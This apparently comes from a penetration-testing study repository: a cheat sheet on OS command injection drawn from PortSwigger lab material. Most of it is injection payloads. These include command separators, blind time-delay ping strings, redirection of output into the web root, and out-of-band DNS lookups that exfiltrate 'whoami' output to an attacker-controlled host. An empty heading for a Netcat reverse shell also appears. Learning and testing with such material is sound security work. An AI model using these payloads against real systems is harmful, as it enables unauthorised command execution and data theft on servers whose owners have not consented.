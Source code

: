 # Command Injection

## Summary

* General Recon For Comamnd Injection Vulnerabilities
* Portswigger Labs Cheat Sheet / Payloads

## Recon

* First step is to perform application mapping and identify any instances where the application appears to be interacting with the underlying OS by calling external processes or accessing the filesystem.  The application may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc.).  It’s recommended to probe all these instances for OS Command Injection.

---
---

## Cheat Sheet

### Background Knowledge

* The characters ; | & and newline(URL encoded -> %0a) can be used to batch multiple commands one after another.  Each of these characters should be used when probing for command injection vulnerabilities, as the application may reject some inputs but accept others.

* The backtick ` character can also be used to encapsulate a separate command within a data item being processed by the original command.  This will cause the interpreter to execute this command first before continuing to execute the remaining command String: 

```bash
nslookup `whoami`.server-you-control.net
```

### Simple Command Injection

```bash
& echo test123 &
```

### Blind Command Injection

* Many times, the results of the injected commands are not returned in the application responses.  If that is the case, we can use the ping command to trigger a time delay in the application’s response by causing the server to ping its loopback interface for a specific time period.

* To maximize chances of identifying OS Command Injection if the application is filtering certain command separators, submit each of the following payloads to each input fields and analyze the time taken for the application to respond:

```bash
| ping -i 30 127.0.0.1 |
```

```bash
| ping -n 30 127.0.0.1 |
```

```bash
& ping -i 30 127.0.0.1 &
```

```bash
& ping -n 30 127.0.0.1 &
```

```bash
; ping -i 30 127.0.0.1 ;
```

```bash
%0a ping -i 30 127.0.0.1 %0a
```

```bash
` ping 127.0.0.1 `
```


### Output Redirection

* We can also redirect a commands output to a file using the > character.  The below example redirects the output of the OS command to a file <u>within the web root</u>, then we can access the file to view the contents through our browser.

```bash
; whoami > /var/www/images/test;
```

### Out-of-band channel payloads

#### Network Interaction

```bash
; nslookup server-you-control ;
```

```bash
& nslookup server-you-control &
```

#### Netcat - reverse shell

#### DNS Data Exfiltration
* using backticks \`_command_\` and $(_command_)

```bash
; nslookup $(whoami).server-you-control ;
```

```bash
; nslookup `whoami`.server-you-control ;
```